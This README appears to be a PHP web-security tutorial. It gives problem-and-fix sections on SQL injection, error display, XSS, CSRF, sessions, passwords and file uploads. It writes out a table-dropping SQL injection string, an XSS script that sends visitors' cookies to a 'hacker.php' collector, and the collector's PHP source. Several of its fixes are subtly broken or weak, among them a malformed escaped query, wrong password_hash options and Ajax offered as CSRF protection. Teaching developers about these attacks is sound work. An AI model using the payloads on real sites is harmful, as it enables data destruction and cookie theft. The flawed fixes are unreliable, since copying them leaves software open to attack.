

# 💻 PHP Security

## 🏃 Get Latest PHP

Try to make sure to have the latest PHP versions installed as they come with updates and features that can help prevent major security flaws. You can download the [current stable release](https://www.php.net/downloads.php)

---

## 💉 SQL Injection

**Note**: The example discussed below can be found in the [sql-injection folder](https://github.com/msanvarov/php-security/tree/master/sql-injection)

SQL injection is the most common attack a developer is bound to experience. A single query can compromise a whole application. In SQL injection attack, the attacker tries to alter the data written to the database via malicious queries.

Suppose your php application processes user data based on input to generate SQL queries, and suddenly, an anonymous attacker secretly injects a malicious SQL query in the input field.

These are common problems that I have noticed in PHP based web applications that permit this dangerous act:

### 🔥 Problem: No Escape on Forms

Let's assume that you create a simple html form to take in user data.

```HTML
<form action="/action_page.php">
  Email:<br>
  <input type="text" name="email" placeholder="Email">
  <br>
  <input type="submit" value="Submit">
</form>
```

**On the client side, nothing is wrong**, where the **problem lies is in how the server interprets this input data.** Let's explore what usually happens on the server side:

```PHP
// in action_page.php
<?php
// connecting to db by the name of sql_injection
$con = new PDO('mysql:host=localhost;dbname=sql_injection', 'root', '');
// OR
$con = new mysqli("localhost", "root", "", "sql_injection");

// processing form input
if (isset($_POST['email']))
{
    $email = $_POST['email'];
    $query = $con->query("SELECT * FROM users WHERE email = '{$email}'");
    // for PDO
    if ($query->rowCount())
    {
        echo "found an email address!";
    }

    // for MYSQL
    if ($query->num_rows)
    {
        echo "found an email address!";
    }
}

// ... hidden body of the form
```

😔 The code above can seem normal but it is in fact extremely flawed.

If I was to execute an sql query attack then I could use the following line:

```text
// past this into the email input
'; DROP TABLE posts; --'

// translates to the following query:
"SELECT * FROM users WHERE email = ''; DROP TABLE posts; --'");
```

This would be enough to drop a table.

More examples:

Let's say you have another HTML form with a username field.

```HTML
<form action="/action_page.php">
  Username:<br>
  <input type="text" name="username" placeholder="Username">
  <br>
  <input type="submit" value="Submit">
</form>
```

Then on the server, if the input from the username field was to be processed in this way:

```PHP
<?php
$sql = "SELECT * FROM users WHERE username = '" . $username . "';
```

**The \$username can contain altered data which can damage the database including deleting the whole database in the blink of an eye.**

So, how can someone avoid this? The answer is to **use PDO** 😌. I recommend to constantly use prepared statements. PDO helps in preventing sql injections

### 🧯 Fix: PDO to Prevent SQL Injections on Forms

Prepare statements or escape strings statements can avoid sql injection.

```PHP
<?php
// for PDO
$query = $con->prepare("SELECT * FROM users WHERE email = :email ");
$query->execute(array('email'=>$email));

// for MYSQL
$email = $mysqli->real_escape_string($email);
 $con->query("SELECT * FROM users WHERE email = '($email)'");
```

---

## ⛔ Errors

Once you have developed a web application that ready to go into production. **The most important thing you must do is disable the display of errors, because hackers might get valuable information from debug errors.**

### 🔥 Problem: Stealing Information from Code Errors in Production

Fatal errors provide information about problems with code that can hold keys to sensitive information like the database names, passwords, usernames, etc.

Therefore when goiing live, make sure to turn PHP errors off.

### 🧯 Fix: Create Loggers and Modify PHP Settings

If server permits, changing the 'display-errors' value in the php.ini file would be beneficial.

```text
display_errors=Off
```

Can set specific log location. **Might be trick if the server paths are unknown**:

```text
log_errors=On

error_log=/var/log/httpd/php_scripts_error.log
```

OR

- Manually Disabling Errors in PHP

```PHP
<?php
// to check whether errors are enabled
phpinfo();

//remotely changing the settings
error_reporting(0);
// or
ini_set('display_errors', 'Off');
```

---

## ❌ XSS

**Cross site scripting is a type of malicious web attack in which an external script is injected into the website’s code or output.** The attacker can send infected code to the end user while browser can not identify it as a trusted script. This attack occurs mostly on the places where user has the ability to input and submit data. The attack can access cookies, sessions and other sensitive information about the browser.

### 🔥 Problem: Injecting JS Code

Let’s look at the example of a GET request which is sending some data through URL: (1)

```PHP
// URL: http://example.com/search.php?search=<script>alert('test');</script>
$search = $_GET['search'] ?? null;
// search is now <script>alert('test');</script>
echo 'Search results for '.$search;
```

OR:

The following example is under the [XSS folder](https://github.com/msanvarov/php-security/tree/master/xss)

Let's assume we have some form in our application. Performing the following task: 

Text entered in the input field:

```text
You are getting redirected and hacked!
<script>
window.location =
 'http://localhost/security/xss/hacker.php?cookie='+escape(document.cookie);
</script>
```

On submit, each time a user navigates to the comment page, the malicious script will execute directing the user to anywhere the hacker has specified 🚧.

### 🧯 Fix: HTMLSPECIALCHARS and ENT_QOUTES to Sanitize Input

Simply employ the `htmlspecialchars`, and `ENT_QUOTES` method on the post body to prevent injecting js into the database. These are built-in PHP methods to help sanitize input.

```PHP
// htmlspecialchars sanitization
$search = htmlspecialchars($search, ENT_QUOTES, 'UTF-8');
echo 'Search results for '.$search;

// ent_quotes sanitization
$body =  htmlspecialchars($_POST['body'], ENT_QUOTES);
```

### 🔥 Problem: Stealing Cookies

Can be lethal if combined with a XSS attack, where cookies of users can be stolen (refer back to the xss folder files hacker.php and mycookies.text).

Assume that the htmlspecialchars method is not used and XSS problem still exists.

A more damaging attack would be to redirect any user to a php file that steals cookies

This is a simple implementation of grabbing cookies from users. The malicious file meant to to steal cookies:

```PHP
<?php
$cookie = $_GET['cookie'];
file_put_contents('mycookies.text', $cookie);

<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <h1>Page not working</h1>
</body>
</html>
```

If the hacker was to write the following the comment in the form then each user accessing the comment section would be redirected to a file that steals their cookies.

This is something that can be used to do so:

```HTML
You are getting redirected and hacked!
<script>
window.location =
 'http://localhost/security/xss/hacker.php?cookie='+escape(document.cookie);
</script>
```

### 🧯 Fix: Extra Flags When Setting Cookies

When [setting cookies](https://www.php.net/manual/en/function.setcookie.php) make sure that you select the additional options like the secure, httponly, and make it available for a limited time.

```PHP
<?php
$expires = new DateTime('+1 day');
 setcookie('username', 'msanvarov', $expires->getTimestamp(), '/', null, null, true ); // expires 1 day after initialization
```

---

## 🔑 Passwords

Example can be found in the [password folder](https://github.com/msanvarov/php-security/tree/master/password)

### 🔥 Problem: Improperly hashing passwords

Clearly hashing passwords is a safer bet than not hashing passwords at all as hackers can expose sensitive information if passwords are not secured properly. But the idea of using any hashing algorithm is not effective as there are still proper ways of hashing passwords for guaranteed security.

### 🧯 Fix: Hash Passwords to Prevent Vulnerabilities

If you are using anything other than the password_hash method provided by php, like sha-1, sha-256, sha-512, md5, you are still risking data theft due to brute force.
(when using password_hash please use without providing your own salt)

```PHP
// Create the hash on account creation
<?php
$password = "securedpass";
password_hash($password, PASSWORD_BCRYPT, [12]);

// Verifying password on Login
<? password_verify($inputedPass, $db_password);
```

---

## 📁 Directories

### 🔥 Problem: Not Hiding Directories

If you don't restrict access to certain directories in your program, then assets, such as js, css, images can be viewed by anyone.

That can open your code up to vulnerabilities developed by hackers that bypass certain features/services that you may provide.

### 🧯 Fix: Create .htaccess to Restrict Directory Traversal by Clients

Create .htaccess files to restrict access

Write the following code inside the .htaccess file (will forbid directory traversal):

```text
// in the .htaccess file
Options -Indexes
```

---

## ❌ Cross Site Request Forgery XSRF/CSRF

The CSRF attack is quite different to XSS attacks. In CSRF attack, the end user can perform unwanted actions on the authenticated websites and can transfer malicious commands to the site to execute any undesirable action. CSRF can’t read the request data and mostly targets the state changing request by sending any link or altered data in HTML tags. It can force the user to perform state changing requests like transferring funds, changing their email addresses etc.

### 🔥 Problem: CSRF Attacks

Assume someone is sending money to another account thorugh a GET request, the following url will be:

> GET http://bank.com/transfer.do?acct=TIM&amount=100 HTTP/1.1

Now if someone wants to exploit the web application they will change the URL with name and amount like this

> http://bank.com/transfer.do?acct=Sandy&amount=100000

Now this URL can be sent via email in any file, Image etc and the attacker might ask you to download the

file or click on the image. And as soon as you do that, you instantly end up with sending huge amount of money you never know about.

### 🧯 Fix: Ajax Operations Instead of Static Requests

When performing data manipulations, make sure to make functions like deleting, creating, inserting, etc. as ajax requests so that a hacker can't just manipulate the html to cause harm.

Plus, you can check for the REQUEST type and make sure that it is a POST request.

1. Insert a hidden value-token into the form:

```HTML
<input type="hidden" name="_token" value="<?php echo $_SESSION['_token'] ?>">
```

2. Generate a token for each session

```PHP
<?php
$_SESSION['_token'] = bin2hex(openssl_random_pseudo_bytes(16));
```

3. Check if request is POST and token is passed

```PHP
<?php
if($_SERVER['REQUEST_METHOD'] === 'POST'){
    if(!isset($_POST['_token']) || ($_POST['_token'] !== $_SESSION['_token'])){

        die("INVALID TOKEN");

    }
}
```

---

## 🌐 Session

### 🔥 Problem: Session Hijacking

Session hijacking is a particular type of malicious web attack in which the attacker secretly steals the session ID of the user. That session ID is sent to the server where the associated \$\_SESSION array validates its storage in the stack and grants access to the application. Session hijacking is possible through an XSS attack or when someone gains access to the folder on a server where the session data is stored.

### 🧯 Fix: Bind Session to IPs

To prevent session hijacking always bind sessions to your IP address to:

```
$IP = getenv ( "REMOTE_ADDR" );
```

Please refer to [this article](https://stackoverflow.com/questions/15699101/get-the-client-ip-address-using-php) for more information.

Furthermore:

- Use enough random input for generating the session ID (see session.entropy_file, session.entropy_length, and session.hash_function)

- Use HTTPS to protect the session ID during transmission

- Store the session ID in a cookie and not in the URL to avoid leakage though Referer (see session.use_only_cookies)

- Set the cookie with the HttpOnly and Secure attributes to forbid access via JavaScript (in case of XSS vulnerabilities) and to forbid transmission via insecure channel (see session.cookie_httponly and session.cookie_secure)

- Regenerate the session ID while invalidating the old one (see session_regenerate_id function) after certain session state changes (e. g. confirmation of authenticity after login or change of authorization/privileges) and can be done periodically to reduce the time span for a successful session hijacking attack.

---

## ☁️ File Uploading

### 🔥 Problem: Malicious Files Being Uploaded

File uploading is a necessary part of any user data processing application. Files can be used for XSS attacks by providing malicious JS code.

### 🧯 Fix: Set Enctype on Form Inputs

Make sure that the POST request in the `<form>` tag contains the property enctype=”multipart/form-data”.

Validate the file type to filter for JS, or other programming language files.

```PHP
<?php
//  file metadata
$finfo = new finfo(FILEINFO_MIME_TYPE);

// processing file contents
$fileContents = file_get_contents($_FILES['some_name']['tmp_name']);

// buffer file contents into file mime type check
$mimeType = $finfo->buffer($fileContents);
```

When using a framework such as CI or Laravel, developers get the luxury of having pre-defined methods to validate files.

A typical solution to a multipart form:

HTML:

```HTML
<form method="post" enctype="multipart/form-data" action="upload.php">

   File: <input type="file" name="pictures[]" multiple="true">

   <input type="submit">

</form>
```

PHP:

```PHP
<?php
foreach ($_FILES['pictures']['error'] as $key => $error) {

   if ($error == UPLOAD_ERR_OK) {

       $tmpName = $_FILES['pictures']['tmp_name'][$key];

       $name = basename($_FILES['pictures']['name'][$key]);

       move_uploaded_file($tmpName, "/var/www/project/uploads/$name");

   }

}
```

Properly declaring the `UPLOAD_ERR` and `basename()` may prevent directory traversal attacks, but few other validations – like file size, file rename and store uploaded files in private location – are also required to strengthen the security of the applications.

---

## 📃 SSL Certificates For HTTPS

All the modern browsers like Google Chrome, Opera, Firefox and others, recommend to use HTTPS protocol for web applications. HTTPs provides a secured and encrypted accessing channel for untrusted sites. You must include HTTPS by installing SSL certificate into your website. It also strengthens your web applications against XSS attacks and prevents the hackers to read transported data using codes.

---

References:
https://www.cloudways.com/blog/php-security/#securityissues
